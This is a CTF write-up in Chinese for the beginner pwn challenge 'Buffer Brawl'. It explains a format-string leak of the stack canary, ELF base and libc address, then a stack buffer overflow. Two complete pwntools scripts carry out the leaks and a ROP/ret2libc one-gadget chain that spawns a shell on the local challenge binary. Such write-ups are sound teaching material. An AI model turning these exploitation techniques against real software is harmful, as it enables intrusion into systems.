






# Beginners - Buffer Brawl Writeup

---  


## FLAG：
` `

## 觀察：
- 執行檔案：各種選項，可以觸發一些function。
  
- IDA分析：
	- `menu()`：
	- `slip()`：
	  
	- `stack_check_up()`
	  

## 思路：
- `slip()`有format string漏洞，可以leak出 ELF base、canary 以及 libc base。
- `stack_check_up()`有bof漏洞，可以RCE。
- 題目沒給libc，透過leak出的`puts()`offset (或更多)，在 [https://libc.rip/](https://libc.rip/ "https://libc.rip/") 查詢libc版本。
- ROP、ret2libc、one-gadget。

## 目標：
- ROP、ret2libc。

## 步驟:

1. 用format string attack 找到 canary 與 ELF address分別在第11與13個參數，leak出它們。
2. leak出libc。
3. 執行到bof處，填入canary、執行ROP chain：控制rbp周圍可寫、ret2libc。

## Exploit：  

fmt_attack.py
```python
from pwn import *
p = process('./buffer_brawl')
p.sendlineafter(b'> ', b'4')
p.recvuntil(b'Right or left?\n')
p.sendline(b"%p" * 14)
stack = p.recvline(keepends=False)
stack = [
    int(s, 16) for s in stack.replace(b"(nil)", b"0x0").replace(b"0x", b" ").split()
]
for i, s in enumerate(stack):
    print(f"{i+1}: {p64(s)} {hex(s)}")
```

solve.py
```python
from pwn import *
exe = context.binary = ELF("buffer_brawl", checksec=False)
libc = exe.libc
p = process(exe.path)
  
def stack_leak(payload) -> bytes:
    p.sendline(b"4")
    p.sendlineafter(b"Right or left?\n", payload)
    return p.recvline()
  
def leak_got(symbol) -> int:
    addr = stack_leak(b"%7$s".ljust(8, b"_") + p64(exe.got[symbol]))
    addr = u64(addr[:6] + b"\x00\x00")
    return addr
  
canary, exe_leak = stack_leak(b"%11$p %13$p").split()
canary = int(canary, 16)
exe_leak = int(exe_leak, 16)
exe.address = exe_leak - 0x1747
puts_addr = leak_got("puts")
libc.address = puts_addr - libc.sym.puts
  
p.info(f"{puts_addr = :x}")
p.info(f"{canary = :x}")
p.info(f"{exe.address = :x}")
p.info(f"{libc.address = :x}")
  
for i in range(29):
    p.sendlineafter(b"\n> ", b"3")
  
pop_rbp = exe.address + 0x11b3  # pop rbp; ret;
bss = exe.address + 0x4100      # any writable address
exec = libc.address + 0xebd43   # one-gadget
payload = b'A'*24+p64(canary)+b'B'*8 + flat([pop_rbp, bss, exec])
p.sendline(payload)
p.interactive()
```

